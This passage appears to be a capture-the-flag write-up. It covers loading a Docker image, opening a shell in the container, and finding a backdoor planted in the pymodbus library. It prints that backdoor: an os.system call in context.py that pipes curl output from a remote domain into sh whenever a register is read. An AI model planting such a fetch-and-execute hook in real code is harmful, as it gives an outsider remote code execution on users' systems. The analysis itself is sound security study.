 This method primarily exposed Docker's internal layer structure, proving to be a dead end for direct backdoor discovery.

---


### The Correct Approach: Docker Analysis

Realizing the nature of the challenge, the correct path was to load the `.tar` file as a Docker image and then interact with the running container.

1.  **Load the Docker Image:**

    ```bash
    ❯ sudo docker load < modbus-container-final-1750975076803.tar
    7fb72a7d1a8e: Loading layer  77.88MB/77.88MB
    e4e2acb8cf69: Loading layer  9.551MB/9.551MB
    f3221a8c83dd: Loading layer  44.84MB/44.84MB
    63e09f79cfb7: Loading layer   5.12kB/5.12kB
    ba8e70fa8412: Loading layer  78.57MB/78.57MB
    642edcf134e9: Loading layer   2.56kB/2.56kB
    a883cc848386: Loading layer  14.34kB/14.34kB
    72abd2fd8b98: Loading layer  13.82kB/13.82kB
    Loaded image: modbus-container-final:latest
    ```

2.  **Gain Shell Access to the Container:**

    ```bash
    ❯ sudo docker run -it --rm modbus-container-final:latest bash
    root@17b563d1fcf0:/#
    ```

    This provided an interactive bash shell inside the running container.

3.  **Locate the Backdoor in `pymodbus`:**
    Recalling the challenge prompt's hint about "strange system-level behavior during a simple register read operation" and "access to the codebase," I focused on the `pymodbus` library, which likely handles the Modbus operations. I searched for `system` calls, often indicative of arbitrary command execution, recursively and case-insensitively within the `pymodbus` site-packages directory:

    ```bash
    root@17b563d1fcf0:/# grep -ir "system" /usr/local/lib/python3.10/site-packages/pymodbus/
    ```

    Among the output, a particularly suspicious line emerged from `context.py`:

    ```bash
    /usr/local/lib/python3.10/site-packages/pymodbus/datastore/context.py:            os.system("curl -s 54484d7b6234636b6430307233645f70796d30646275357d.callmeback.com| sh")
    ```

    This `os.system()` call immediately stood out as the backdoor. It executes a `curl` command to fetch content from a domain (`callmeback.com`) with a hexadecimal string as a subdomain, and then pipes that content directly to `sh` for execution. This `curl | sh` pattern is a common method for downloading and executing malicious scripts. The trigger condition for this backdoor is simply a Modbus register read operation, as it's embedded within `pymodbus/datastore/context.py`, a core part of the Modbus server's data handling.

---